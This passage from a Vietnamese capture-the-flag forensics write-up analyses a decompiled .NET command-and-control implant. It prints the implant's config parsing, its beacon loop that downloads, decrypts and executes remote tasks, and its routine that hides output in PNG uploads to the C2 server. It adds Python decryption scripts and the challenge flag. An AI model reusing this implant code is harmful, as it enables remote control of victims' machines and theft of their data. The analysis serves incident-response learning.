QVQ4ja2T63uaMBjFQQwXTWhCkEYTik7t0Hbi1FrFrje1u7gL9v//Y/ZCfdR2+7Rn54s8nJ8nyXmDpv1HnUyuzULR5OStV7pmYPTG6AxkDXosMtmydOzXKGlzay8epilzDkCTEUIwQmBBgGUhhEknPWQ0mcqBIqEAOOco9NYsKh378/vlyyJcffv6xc08yCgI2wwBUPFqvnoBBo+fn1au9Lw0M2GVUtSjOTBe4gkCWShptbaPPkSkmc8MCBBUYUWVhTAIoXaWKuL5rl8AuqazHBAUnXFMciLNQihjDGukSQEUCaFC/BkXm80yZT1znsh1dgBIoLD262dAFKFJkv7QbnFbptnWnwEwqwtKlNp8B0BBRrJN4HnoSwhoxbZm39XyNfDZZkNo3iUn2WA4HEiZ+H3WMDSjYdYpzXc3zf2i6bXrutL1+2asQ1H6ORAE6qe4ADgcty6ldN3WRwiAUTpACAspGBfvdptdmBTpvJOyFVXsYhYGEG0FVRH04eLy8uI9hj13ZJ9V9N04DSdmJgUAL0YPD6ObqaJUmOyuur8yRqPMYKdqevtpdLO4n1Ih6rOyYxxujOHMewJOS1enp4sBpWFQi6tHPhDQRigonSoF/w+DILp65WulKxYEQShEkggBT4I5pddANerA+6C39YvfWqS/ufj2uVmDvrw09Wi7HrFdBccRlfks/2ryD2QW7ys4IvRGpbxTpfGnn5/E1neyjb/Y/6zfsC5Em3hFDfYAAAAASUVORK5CYII="49395491SGMI
```

</details>


- Dựa vào đoạn code này 
```
		Regex regex = new Regex("RANDOMURI19901(.*)10991IRUMODNAR");
		Match match = regex.Match(text2);
		string randomURI = match.Groups[1].ToString();
		regex = new Regex("URLS10484390243(.*)34209348401SLRU");
		match = regex.Match(text2);
		string stringURLS = match.Groups[1].ToString();
		regex = new Regex("KILLDATE1665(.*)5661ETADLLIK");
		match = regex.Match(text2);
		string killDate = match.Groups[1].ToString();
		regex = new Regex("SLEEP98001(.*)10089PEELS");
		match = regex.Match(text2);
		string sleep = match.Groups[1].ToString();
		regex = new Regex("JITTER2025(.*)5202RETTIJ");
		match = regex.Match(text2);
		string jitter = match.Groups[1].ToString();
		regex = new Regex("NEWKEY8839394(.*)4939388YEKWEN");
		match = regex.Match(text2);
		string key2 = match.Groups[1].ToString();
		regex = new Regex("IMGS19459394(.*)49395491SGMI");
		match = regex.Match(text2);
		string stringIMGS = match.Groups[1].ToString();
		ImplantCore(text3, randomURI, stringURLS, killDate, sleep, key2, stringIMGS, jitter);
```
- Sau khi phân tích ta dễ dàng nhận ra chuỗi được xử lý bằng reget và lấy các đoạn (.*)
- Mình sẽ viết 1 script đơn giản trích xuất các giá trị này ra

```

import re

def extract_value(pattern, text):
    match = re.search(pattern, text)
    return match.group(1) if match else ''

text2 = r'RANDOMURI19901dVfhJmc2ciKv....' 

# Định nghĩa các biểu thức chính quy
patterns = {
    "randomURI": r"RANDOMURI19901(.*)10991IRUMODNAR",
    "stringURLS": r"URLS10484390243(.*)34209348401SLRU",
    "killDate": r"KILLDATE1665(.*)5661ETADLLIK",
    "sleep": r"SLEEP98001(.*)10089PEELS",
    "jitter": r"JITTER2025(.*)5202RETTIJ",
    "key2": r"NEWKEY8839394(.*)4939388YEKWEN",
    "stringIMGS": r"IMGS19459394(.*)49395491SGMI"
}

# Trích xuất các giá trị
values = {key: extract_value(pattern, text2) for key, pattern in patterns.items()}

# In kết quả
for key, value in values.items():
    print(f"{key}: {value}")

```
- Và đây là đầu ra 
```
randomURI: dVfhJmc2ciKvPOC
stringURLS: "Kettie/Emmie/Anni?Theda=Merrilee", "Rey/Odele/Betsy/Evaleen/Lynnette?Violetta=Alie", "Wilona/Sybila/Pearla/Mair/Dannie/Darcie/Katerina/Irena/Missy/Ketty/", "Hedwiga/Pamelina/Lisette/Sibylla/Jana/Lise/Kellen/Daniela/Alika/", "Arlinda/Chelsae/Milka/Alexine/Mona/Catherin/Charmain/Deborah/", "Melessa/Anabelle/Bibbye/Candis/Jacqueline/Lacee/Nicola/Belvia?Lexi=Veronika", "Janith/Mona/Kimberlee/Flossi/Darcie/Doralia/Aloysia/Gracia/Antonella?Othella=Jewelle", "Vere/Maddalena/Kara/Thomasina/Alisha/Amargo/Carrissa/", "Harlie/Fanya/Jehanna/Jane/Tami/Sissy/", "Catlaina/Nikaniki/Sonja/Denni/Kelsey/Allis/Cherry?Hayley=Rosalind", "Gerry/June/Charissa/Blondy/Sharity/Lory?Loise=Maribelle", "Ariadne/Marianna/Betti/Samaria/Carmon/Tandy/Charissa/Sherrie/Felipa/Crissy/", "Glennis/Elfrieda/Fannie/Nola/Janetta/Darda/Kathi/Britte?Berta=Lidia", "Georgeta/Sharron/Cynthy/Roseanna/", "Morganne/Mamie/Arlee/Suki/Uta/Anett/Sena/Babette/Anderea?Hally=Karie", "Zondra/Tasha/Rey/Eolande/Rianon/Alla/Trula/Cynthea/Glyn?Jamima=Ethyl", "Edi/Phyllys/Marga/Jaquith/Ray/Lynnell/Flory?Angelle=Betteanne", "Ciel/Constantine/Catlee?Cecile=Karina", "Kaylee/Guglielma/Clementia/Ilka/", "Zoe/Delora/Christi/Carolan/Barbi/Myrta/Cherie/Halie/", "Brandy/Joanna/Afton/Jana?Chelsea=Truda", "Aveline/Alethea/Rona/Janka/Danila/Robbyn/Glynda/Stormi/", "Tamiko/Carine/Juliann/", "Jacenta/Hatti?Tatiana=Franny", "Hyacinth/", "Merrili/Gabrila/Harmony/Erda/", "Mirelle/Imogene/Rivalee/Ayn/Courtenay?Jania=Jerrylee", "Imogen/Ketti/Kari/Sam/Maurise?Shirlene=Eugenia", "Melinda/Lianne/Blancha/Silvie/Gracia/Zaneta/Lyda/Dalia/Tracie/", "Fanchette/Marlyn/Casey/Bobbye/Elayne/Charmane/", "Cissiee/Maxy/Madalyn/Esme/Esther/Barbette/Starla/Vin/Corrinne/Meggy/Joete?Glenna=Aida", "Kirsteni/Nelie/Lauralee/Stefanie/Haily/Annecorinne/Nettle/Natka?Jenda=Ursuline", "Elinore/", "Maisie/Hedwig/Natividad?Gisela=Ollie", "Roselle/Philippa/Noellyn/Zarah/Tillie/Koral/Laurette/Lelah/Kylynn/Cassaundra/Jordanna?Stormy=Vally", "Abbi/Rania/Vivienne/Engracia/Adel/Ange/Tonye/Rosemaria/Gretta/Guinna/Jehanna?Linnet=Daria", "Mamie/Eddi/Eddi/Tanitansy/Timmy/Willie/Catie/Gisela/Sheri/", "Helaina/Theadora/Malinda/Linnie/Jaquith/Ailyn/Magda?Sisile=Vonnie", "Faunie/Dionne/Shelbi/Zorana/Pearline/Rozanna/Kandace/Fanchon?Anna-Diana=Lorelei", "Waneta/Marnie/Jessalyn/Jaynell/Holli/Kassi/Euphemia/Katerine?Minda=Dawna", "Kikelia/Jacinthe/Adorne/Kariotta/Lonee/Krystalle/", "Constancia/Dynah?Allene=Moyra", "Donetta/", "Sallie/Lindie/Denni/", "Jeannine/Lucretia/Denna/Prudy/Hendrika/Ilysa/Caroljean?Aline=Tine"
killDate: 2025-01-01
sleep: 3s
jitter: 0.2
key2: nUbFDDJadpsuGML4Jxsq58nILvjoNu76u4FIHVGIKSQ=
stringIMGS: "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" 
```
- Tuy nhiên phía dưới còn thực hiện 1 hàm `ImplantCore(text3, randomURI, stringURLS, killDate, sleep, key2, stringIMGS, jitter);`
- Bây giờ soi hàm đó xem nó làm gì

<details>
<summary>
Full hàm ImplantCore
</summary>

	private static void ImplantCore(string baseURL, string RandomURI, string stringURLS, string KillDate, string Sleep, string Key, string stringIMGS, string Jitter)
	{
		UrlGen.Init(stringURLS, RandomURI, baseURL);
		ImgGen.Init(stringIMGS);
		pKey = Key;
		int num = 5;
		Regex regex = new Regex("(?<t>[0-9]{1,9})(?<u>[h,m,s]{0,1})", RegexOptions.IgnoreCase | RegexOptions.Compiled);
		Match match = regex.Match(Sleep);
		if (match.Success)
		{
			num = Parse_Beacon_Time(match.Groups["t"].Value, match.Groups["u"].Value);
		}
		StringWriter stringWriter = new StringWriter();
		Console.SetOut(stringWriter);
		ManualResetEvent manualResetEvent = new ManualResetEvent(false);
		StringBuilder stringBuilder = new StringBuilder();
		double result = 0.0;
		if (!double.TryParse(Jitter, NumberStyles.Any, CultureInfo.InvariantCulture, out result))
		{
			result = 0.2;
		}
		while (!manualResetEvent.WaitOne(new Random().Next((int)((double)(num * 1000) * (1.0 - result)), (int)((double)(num * 1000) * (1.0 + result)))))
		{
			if (DateTime.ParseExact(KillDate, "yyyy-MM-dd", CultureInfo.InvariantCulture) < DateTime.Now)
			{
				Run = false;
				manualResetEvent.Set();
				continue;
			}
			stringBuilder.Length = 0;
			try
			{
				<ImplantCore>c__AnonStorey1 <ImplantCore>c__AnonStorey = new <ImplantCore>c__AnonStorey1();
				string text = "";
				<ImplantCore>c__AnonStorey.cmd = null;
				try
				{
					<ImplantCore>c__AnonStorey.cmd = GetWebRequest(null).DownloadString(UrlGen.GenerateUrl());
					text = Decryption(Key, <ImplantCore>c__AnonStorey.cmd).Replace("\0", string.Empty);
				}
				catch
				{
					goto end_IL_00f1;
				}
				if (!text.ToLower().StartsWith("multicmd"))
				{
					continue;
				}
				string text2 = text.Replace("multicmd", "");
				string[] array = text2.Split(new string[1] { "!d-3dion@LD!-d" }, StringSplitOptions.RemoveEmptyEntries);
				string[] array2 = array;
				foreach (string text3 in array2)
				{
					taskId = text3.Substring(0, 5);
					<ImplantCore>c__AnonStorey.cmd = text3.Substring(5, text3.Length - 5);
					if (<ImplantCore>c__AnonStorey.cmd.ToLower().StartsWith("exit"))
					{
						Run = false;
						manualResetEvent.Set();
						break;
					}
					if (<ImplantCore>c__AnonStorey.cmd.ToLower().StartsWith("loadmodule"))
					{
						string s = Regex.Replace(<ImplantCore>c__AnonStorey.cmd, "loadmodule", "", RegexOptions.IgnoreCase);
						Assembly assembly = Assembly.Load(Convert.FromBase64String(s));
						Exec(stringBuilder.ToString(), taskId, Key);
					}
					else if (<ImplantCore>c__AnonStorey.cmd.ToLower().StartsWith("run-dll-background") || <ImplantCore>c__AnonStorey.cmd.ToLower().StartsWith("run-exe-background"))
					{
						Thread thread = new Thread(new ThreadStart(<ImplantCore>c__AnonStorey.<>m__0));
						Exec("[+] Running background task", taskId, Key);
						thread.Start();
					}
					else if (<ImplantCore>c__AnonStorey.cmd.ToLower().StartsWith("run-dll") || <ImplantCore>c__AnonStorey.cmd.ToLower().StartsWith("run-exe"))
					{
						stringBuilder.AppendLine(rAsm(<ImplantCore>c__AnonStorey.cmd));
					}
					else if (<ImplantCore>c__AnonStorey.cmd.ToLower().StartsWith("beacon"))
					{
						Regex regex2 = new Regex("(?<=(beacon)\\s{1,})(?<t>[0-9]{1,9})(?<u>[h,m,s]{0,1})", RegexOptions.IgnoreCase | RegexOptions.Compiled);
						Match match2 = regex2.Match(text3);
						if (match2.Success)
						{
							num = Parse_Beacon_Time(match2.Groups["t"].Value, match2.Groups["u"].Value);
						}
						else
						{
							stringBuilder.AppendLine(string.Format("[X] Invalid time \"{0}\"", text3));
						}
						Exec("Beacon set", taskId, Key);
					}
					else
					{
						string text4 = rAsm(string.Format("run-exe Core.Program Core {0}", <ImplantCore>c__AnonStorey.cmd));
					}
					stringBuilder.AppendLine(stringWriter.ToString());
					StringBuilder stringBuilder2 = stringWriter.GetStringBuilder();
					stringBuilder2.Remove(0, stringBuilder2.Length);
					if (stringBuilder.Length > 2)
					{
						Exec(stringBuilder.ToString(), taskId, Key);
					}
					stringBuilder.Length = 0;
				}
				end_IL_00f1:;
			}
			catch (NullReferenceException)
			{
			}
			catch (WebException)
			{
			}
			catch (Exception arg)
			{
				Exec(string.Format("Error: {0} {1}", stringBuilder.ToString(), arg), "Error", Key);
			}
			finally
			{
				stringBuilder.AppendLine(stringWriter.ToString());
				StringBuilder stringBuilder3 = stringWriter.GetStringBuilder();
				stringBuilder3.Remove(0, stringBuilder3.Length);
				if (stringBuilder.Length > 2)
				{
					Exec(stringBuilder.ToString(), "99999", Key);
				}
				stringBuilder.Length = 0;
			}
		}
	}


</details>

- `<ImplantCore>c__AnonStorey.cmd = GetWebRequest(null).DownloadString(UrlGen.GenerateUrl());` Dòng này tải dữ liệu từ UrlGen xuống, sau đó decrypt bằng key `nUbFDDJadpsuGML4Jxsq58nILvjoNu76u4FIHVGIKSQ=` và loại bỏ chuỗi "\0"

- `string text2 = text.Replace("multicmd", "");` dòng này loại bỏ tất cả các chuỗi "multicmd" 


- Và cuối cùng là thực thi chương trình bằng hàm `Exec`

<details>
<summary>
Full class ImgGen
</summary>

```
internal static class ImgGen
{
	// Token: 0x06000020 RID: 32 RVA: 0x00003478 File Offset: 0x00001678
	internal static void Init(string stringIMGS)
	{
		IEnumerable<string> source = from Match m in Program.ImgGen._re.Matches(stringIMGS.Replace(",", ""))
		select m.Value;
		source = from m in source
		where !string.IsNullOrEmpty(m)
		select m;
		Program.ImgGen._newImgs = source.ToList<string>();
	}

	// Token: 0x06000021 RID: 33 RVA: 0x000034F6 File Offset: 0x000016F6
	private static string RandomString(int length)
	{
		return new string((from s in Enumerable.Repeat<string>("...................@..........................Tyscf", length)
		select s[Program.ImgGen._rnd.Next(s.Length)]).ToArray<char>());
	}

	// Token: 0x06000022 RID: 34 RVA: 0x00003530 File Offset: 0x00001730
	internal static byte[] GetImgData(byte[] cmdoutput)
	{
		int num = 1500;
		int num2 = cmdoutput.Length + num;
		string s = Program.ImgGen._newImgs[new Random().Next(0, Program.ImgGen._newImgs.Count)];
		byte[] array = Convert.FromBase64String(s);
		byte[] bytes = Encoding.UTF8.GetBytes(Program.ImgGen.RandomString(num - array.Length));
		byte[] array2 = new byte[num2];
		Array.Copy(array, 0, array2, 0, array.Length);
		Array.Copy(bytes, 0, array2, array.Length, bytes.Length);
		Array.Copy(cmdoutput, 0, array2, array.Length + bytes.Length, cmdoutput.Length);
		return array2;
	}

	// Token: 0x04000016 RID: 22
	private static Random _rnd = new Random();

	// Token: 0x04000017 RID: 23
	private static Regex _re = new Regex("(?<=\")[^\"]*(?=\")|[^\" ]+", RegexOptions.Compiled);

	// Token: 0x04000018 RID: 24
	private static List<string> _newImgs = new List<string>();
}
```
</details>

- `string cookie = Encryption(key, taskId);` => Mã hoá taskID
- `byte[] cmdoutput = Convert.FromBase64String(text);` => Chuyển base64 sang mảng byte 
- `byte[] imgData = ImgGen.GetImgData(cmdoutput);` => thực hiện việc gọi một phương thức để lấy dữ liệu hình ảnh từ một mảng byte đã cho.
- `GetWebRequest(cookie).UploadData(UrlGen.GenerateUrl(), imgData);` => Cuối cùng là gửi request ảnh lên

```
		internal static byte[] GetImgData(byte[] cmdoutput)
		{
			int num = 1500;
			int num2 = cmdoutput.Length + num;
			string s = _newImgs[new Random().Next(0, _newImgs.Count)];
			byte[] array = Convert.FromBase64String(s);
			byte[] bytes = Encoding.UTF8.GetBytes(RandomString(num - array.Length));
			byte[] array2 = new byte[num2];
			Array.Copy(array, 0, array2, 0, array.Length);
			Array.Copy(bytes, 0, array2, array.Length, bytes.Length);
			Array.Copy(cmdoutput, 0, array2, array.Length + bytes.Length, cmdoutput.Length);
			return array2;
		}

```
- Bởi vì bế tắc nên mình đã tham khảo writeup [này](https://medium.com/maverislabs/htb-ca2023-forensics-interstellar-c2-588e2419400c)
- GetImgData lấy PNG thêm rác vào đó cho đến khi tệp có kích thước lên tới 1500 byte.Sau đó, nó sẽ thêm giá trị được mã hóa, nén nhưng không phải base64 của dữ liệu mà C2 muốn POST trở lại máy chủ.
- Và đây là script để lấy lại các tệp gốc
```python
import os
import base64
from Crypto.Cipher import AES
import gzip, zlib

def decrypt(data, key):
    cipher = AES.new(key, AES.MODE_CBC, data[:AES.block_size])
    return cipher.decrypt(data[AES.block_size:])

def decompress(data):
    if len(data)> 0:
        for i in range(64):
            try:
                if data[:-i] == '\x00':
                    data = data[:-i]
            except:
                pass
        return zlib.decompress(data, 15 + 32)
    else:
        return None

##key
key = base64.b64decode("nUbFDDJadpsuGML4Jxsq58nILvjoNu76u4FIHVGIKSQ=")  #found in phase 2 response

### get all files with %3fdVfhJmc2ciKvPOC
path = "./destdir"
dir_list = os.listdir(path)

files = []
dec = []
for file in dir_list:
    if "%3fdVfhJmc2ciKvPOC" in file:
        with open(path+"/"+file,'rb') as f:
            files.append([file, f.read()]) #could do operations here, but bad practice with file i/o

for filename,filebytes in files:
    if bytearray([0x89, 0x50, 0x4E,0x47]) in filebytes[:4]: # PNG header, def not base64 or html
        temp = decompress(decrypt(filebytes[1500:], key))
        try:
            temp = base64.b64decode(temp)
        except:
            pass
        dec.append([filename, temp])
    else:
        try:
            temp = decrypt(base64.b64decode(filebytes.decode().strip('\x00')), key)
            try:
                temp = base64.b64decode(temp)
            except:
                pass
            dec.append([filename, temp])
            #dec.append([filename, decrypt(base64.b64decode(filebytes.decode().strip('\x00')))])
        except:
            #maybe it isn't base64
            print("[!] Could not decrypt {}:\n{}\n".format(filename, filebytes[:10]))


for f,d in dec:
    if None != d:
        if b"loadmodule" in d[:32]:
            if b'TVqQAAMAAAAEAAAA/' in d[23:41]:
                #we have a bin here, may have to remove !d-3dion@LD!-d
                with open('./dec_'+f+'.bin', 'wb') as f:
                    f.write(base64.b64decode(d[23:].decode().strip('\x00')))
        elif bytearray([0x89, 0x50, 0x4E,0x47]) in d[:8]:
            #we got a screenshot
            with open('./dec_'+f+'.png', 'wb') as f:
                f.write(d)
        else:
            print("Dumping unknown data from {} to {}".format(f,("dec_"+f+".dec")))
            with open('./dec_'+f+'.dec', 'wb') as f:
                f.write(d)
```

- 

> HTB{h0w_c4N_y0U_s3e_p05H_c0mM4nd?}